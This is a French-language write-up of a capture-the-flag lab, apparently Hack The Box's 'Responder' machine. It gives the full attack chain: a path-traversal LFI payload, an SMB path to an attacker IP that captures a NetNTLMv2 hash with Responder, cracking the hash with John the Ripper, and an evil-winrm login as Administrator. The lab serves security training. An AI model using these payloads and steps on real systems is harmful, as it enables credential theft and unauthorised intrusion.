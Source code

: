 # Note détaillée du déroulement du document "Responder Write-up"

## Introduction

Windows est le système d'exploitation le plus répandu aujourd'hui en raison de son interface utilisateur graphique facile à utiliser. Environ 85 % du marché étant dominé par Windows, il devient une cible critique pour les attaques. De plus, la plupart des organisations utilisent Active Directory pour configurer leurs réseaux de domaine Windows. Microsoft utilise NTLM (New Technology LAN Manager) et Kerberos pour les services d'authentification. Malgré les vulnérabilités connues, NTLM reste largement déployé, même sur les nouveaux systèmes, pour maintenir la compatibilité avec les clients et serveurs hérités.

Ce laboratoire se concentre sur la manière dont une vulnérabilité d'inclusion de fichier sur une page web servie sur une machine Windows peut être exploitée pour collecter le défi NetNTLMv2 de l'utilisateur exécutant le serveur web. Nous utiliserons un utilitaire appelé Responder pour capturer un hachage NetNTLMv2 et utiliserons ensuite un utilitaire connu sous le nom de John the Ripper pour tester des millions de mots de passe potentiels pour voir s'ils correspondent à celui utilisé pour créer le hachage. Nous allons également examiner de plus près le processus de fonctionnement de l'authentification NTLM et comment l'utilitaire Responder capture le défi. Nous croyons qu'il est crucial de comprendre le fonctionnement interne d'un outil ou d'un framework, car cela renforce la compréhension, ce qui aide dans les scénarios d'exploitation réels qui ne semblent pas vulnérables au premier regard. Allons-y.

## Énumération

Nous commencerons par scanner l'hôte pour détecter les ports ouverts et les services en cours d'exécution avec un scan Nmap. Nous utiliserons les indicateurs suivants pour le scan :

- **Commande** : `nmap -p- --min-rate 1000 -sV {IP_de_la_cible}` pour scanner tous les ports TCP de 0 à 65535, déterminer la version du service et spécifier le nombre minimum de paquets que Nmap doit envoyer par seconde pour accélérer le scan.

Comment Nmap détermine-t-il le service en cours d'exécution sur le port ?

Nmap utilise une base de données de services bien connus pour déterminer le service exécuté sur un port particulier. Il envoie également des requêtes spécifiques au service pour déterminer la version du service et toute information supplémentaire à son sujet.

Selon les résultats du scan Nmap, la machine utilise Windows comme système d'exploitation. Deux ports ont été détectés comme ouverts, avec un serveur web Apache fonctionnant sur le port 80 et WinRM sur le port 5985.

### 1. Connexion WinRM
Windows Remote Management (WinRM) est un protocole de gestion à distance intégré à Windows qui utilise le protocole SOAP pour interagir avec des ordinateurs et serveurs distants, ainsi que des systèmes d'exploitation et des applications. En tant que pentester, cela signifie que si nous pouvons trouver des identifiants (généralement un nom d'utilisateur et un mot de passe) pour un utilisateur ayant des privilèges de gestion à distance, nous pouvons potentiellement obtenir un shell PowerShell sur l'hôte.

## Énumération du site Web

En ouvrant Firefox et en saisissant http://[IP_de_la_cible], le navigateur renvoie un message indiquant qu'il est impossible de trouver ce site. En regardant dans la barre d'URL, il montre maintenant http://unika.htb. Le serveur web utilise l'hébergement virtuel basé sur le nom pour répondre aux requêtes. Nous devons ajouter une entrée dans le fichier /etc/hosts pour ce domaine afin de permettre au navigateur de résoudre l'adresse de unika.htb.

### 2. Modifier le fichier /etc/hosts

- **Commande** : `echo "{IP_de_la_cible} unika.htb" | sudo tee -a /etc/hosts`

Sur la page web, nous remarquons une option de sélection de langue dans la barre de navigation. En changeant l'option en FR, nous accédons à une version française du site web. En observant l'URL, nous voyons que la page french.html est chargée par le paramètre page, ce qui peut potentiellement être vulnérable à une vulnérabilité d'inclusion de fichier local (LFI) si l'entrée de la page n'est pas nettoyée.

## Vulnérabilité d'inclusion de fichier

Les sites web dynamiques incluent des pages HTML à la volée en utilisant des informations de la requête HTTP pour inclure des paramètres GET et POST, des cookies et d'autres variables. LFI ou Local File Inclusion se produit lorsqu'un attaquant est capable de faire inclure un fichier par un site web qui n'était pas prévu pour cette application. Par exemple, si une application utilise le chemin d'un fichier comme entrée, et que les contrôles de sécurité nécessaires ne sont pas effectués sur cette entrée, alors l'attaquant peut l'exploiter en utilisant la chaîne ../ pour remonter dans les répertoires et éventuellement voir des fichiers sensibles du système de fichiers local.

### 3. Tester la vulnérabilité LFI
- **Commande** : `http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`

Nous voyons le contenu du fichier hosts de C:\windows\system32\drivers\etc dans la réponse, confirmant la vulnérabilité LFI.

## Capturer le défi avec Responder

### 4. Utiliser Responder pour capturer les défis NTLMv2

Nous savons que cette page web est vulnérable à l'inclusion de fichier et qu'elle est servie sur une machine Windows. Il existe donc une possibilité d'inclure un fichier sur notre machine attaquante. Si nous choisissons un protocole comme SMB, Windows essaiera de s'authentifier sur notre machine et nous pourrons capturer le NetNTLMv2.

### 5. Configuration de Responder
Si l'utilitaire Responder n'est pas déjà installé sur la machine, nous clonons le dépôt Responder sur notre machine locale.

- **Commande** : `git clone https://github.com/lgandx/Responder`
- **Commande** : `sudo responder -I {interface_réseau}`

### 6. Inclure le fichier SMB
- **Commande** : `http://unika.htb/?page=//{IP_attacker}/somefile`

Lorsque le serveur essaie de charger la ressource depuis notre serveur SMB, Responder capture le NetNTLMv2 pour l'utilisateur Administrator.

### 7. Cracking du hash

Nous pouvons dumper le hash dans un fichier et essayer de le craquer avec John the Ripper, un utilitaire de craquage de hash de mot de passe.

- **Commande** : `echo "Administrator::...:hash_value" > hash.txt`
- **Commande** : `john -w=/usr/share/wordlists/rockyou.txt hash.txt`

John essaiera chaque mot de passe de la liste de mots de passe donnée, en cryptant le défi avec ce mot de passe. Si le résultat correspond à la réponse, il saura qu'il a trouvé le mot de passe correct. Dans ce cas, le mot de passe du compte Administrator a été craqué avec succès.

### 8. Connexion WinRM

Nous nous connecterons au service WinRM sur la cible et essaierons d'obtenir une session. Étant donné que PowerShell n'est pas installé par défaut sur Linux, nous utiliserons un outil appelé Evil-WinRM.

- **Commande** : `evil-winrm -i {IP_de_la_cible} -u administrator -p {mot_de_passe}`

Nous pouvons trouver le flag sous C:\Users\mike\Desktop\flag.txt.

### 9. Soumission de la Flag

Copiez la valeur de hachage obtenue et collez-la sur la page du lab Starting Point pour obtenir la propriété de la machine.
